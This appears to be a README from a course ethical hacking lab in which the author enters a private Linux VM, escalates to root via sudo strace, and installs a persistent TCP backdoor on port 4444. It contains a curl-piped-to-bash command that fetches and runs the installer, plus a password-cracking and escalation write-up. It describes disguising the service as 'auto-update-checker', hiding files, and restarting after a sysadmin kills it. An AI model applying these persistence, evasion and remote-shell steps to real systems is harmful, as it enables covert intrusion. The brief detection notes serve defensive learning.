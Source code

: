 # Command and Control
An ethical hacking lab to enter a linux virtual machine, find a privilege escalation vulnerability, and set up a backdoor as the root user. 

## Instructions
### Logging into the week4 machine:
ssh into the week4 virtual machine (private VM not publically accessible) using this command:
`ssh user@10.0.2.5`

The password for the machine is:
`hill`
 
 <em>[How the password was discovered](#Password-Crack)</em>

To escalate privileges use this command:
```bash
sudo strace -o /dev/null /bin/bash
 ```
then type `cd` in order to change into the root directory.

<em>[How the privilege escalation was discovered](#Privilege-Escalation)</em>

### Installing and running the server script on the week4 machine:
Run the following command which will install the backdoor to the machine. Only 2 files will be installed: the script to run the server from GitHub directly, and the systemd service to ensure persistence (explained further in a later section).

```bash
curl -s https://raw.githubusercontent.com/athulnair02/command-and-control/main/install_backdoor | bash
```

Installing and running the client script on your local machine:
In any spot on the attacking machine add the file:

<kbd>[client.py](https://github.com/athulnair02/command-and-control/blob/main/client.py)</kbd>

Once you’ve done this, you can run the client script at any time using:
`python client.py` or `python3 client.py`

## How the backdoor works:
### How our backdoor addresses the 5 requirements:
1. **Explanation of how our backdoor provides remote shell access:**
The backdoor is essentially a shell in which the target machine reveals port `4444/tcp` in the firewall and listens for a connection from the network. The python script on the target side is waiting for a connection, and once accepted and authorized through a password, it receives commands from the attacking machine through TCP and executes them through a subprocess. The output from the command is sent back to the attacking machine through the established connection.
2. **Persistence:**
The backdoor maintains persistence using a systemd service that ensures it is always running on the machine. It is the service that initially starts the script to open the backdoor when it is first installed and every time the script ends (either successful, on error, etc.) it will be restarted with a different PID. This way, if there is any unforeseen error in the code, it will not prevent the backdoor from being closed. In addition, if a sysadmin kills the program when finding it suspicious (while looking at top or task manager), it will start again, opening the backdoor once again. Another persistence action taken was having a timeout for the initial backdoor connection. If the backdoor does not have a connection in two minutes, it throws an error and ends the program so that it restarts and ensures the firewall was not closed by the sysadmin. If the firewall is closed, then no connection can be made to the backdoor. This timeout can be changed since the code is directly run off of Github, meaning any push to the main branch will update the backdoor when it is run through the curl command piped into python command.
3. **Configuration to get commands from:**
The only configuration needed is to determine the IP address of the target machine (through `nmap` or any other means) and change `REMOTE_HOST` in `client.py` to that address. It is default set to `10.0.2.5`.
4. **Authentication:**
We created a password `c0d3m@nk3y` and hashed it using `hash(password)` in python. This hash is then stored on the server/target machine. We then have `client.py` ask the user to input a password as the first message to the target and it is then sent to the server. There, the server hashes it and checks it against the known hash, which once confirmed, allows the user remote root shell access.
5. **Hiding from detection:**
There are only 2 files added to the machine: one that is the backdoor, and the other to ensure it keeps running. Both files are using a less suspecting name `auto-update-checker` that creates the illusion of a routine, ordinary task for the sysadmin. The actual script that is run is in the root’s home directory as a hidden file (it can easily be placed elsewhere more secretive). There is no `cronjob` running so a sysadmin cannot find the script running there (where other common repeating programs may be). In addition, the service is buried deep with other services so it will be difficult for a sysadmin to search through all services to determine which one is malicious.
## How our backdoor can be detected:
If the sysadmin checks the hidden files in the root home directory, they can find the presence of a file they did not put. If they look past the unsuspecting name and read the script that is running, they will find the backdoor. 

If the sysadmin looks at what ports are open on the firewall using `firewall-cmd –list-ports`, they will see that `4444/tcp` is open and will know something odd is in place keeping the port open. If they use further investigation, they may find the program using the port if they install `lsof` and execute `lsof -i:4444`. 

## Password Crack
### Discovery and Researching the Vulnerability
After finding the IP of the target machine as `10.0.2.5`, I looked through the `pcappng` file (saved state file from Wireshark) to see any traffic coming to or from that machine. After following TCP streams here and there, I found a stream with comprehensible data.
![image](https://github.com/athulnair02/command-and-control/assets/42418601/3da19f36-09eb-44ee-b395-50fc5d5765fe)
![image](https://github.com/athulnair02/command-and-control/assets/42418601/413c5d59-f7a7-40f2-8a83-01f342470ce2)
![image](https://github.com/athulnair02/command-and-control/assets/42418601/0547b7f0-8dfe-45d7-9f9d-b263b70399bf)

I noticed that it looked like an HTTP response with information about users. I saw the user `user` had a password hashed next to it and found it to be intriguing and worth looking into.

I then used John the Ripper with the wordlist `rockyou.txt` to brute force the password which I found out to be `hill`.

## Privilege Escalation
I tried to escalate the privilege using linepeas and GTFObins but it was difficult to achieve it at first, but I eventually used the CVE exploit linpeas informed me about and found a GitHub repository with a shell code to run the exploit which escalated me to root.
![image](https://github.com/athulnair02/command-and-control/assets/42418601/32c2380f-6519-4de2-8973-2cae07d6024a)

The second method I used was through a `sudo` command for `strace`. It allowed to spawn an interactive shell unit as root and maintain root access.
![image](https://github.com/athulnair02/command-and-control/assets/42418601/d22cdaae-dd2a-478b-93c1-f3ff8b057d1a)
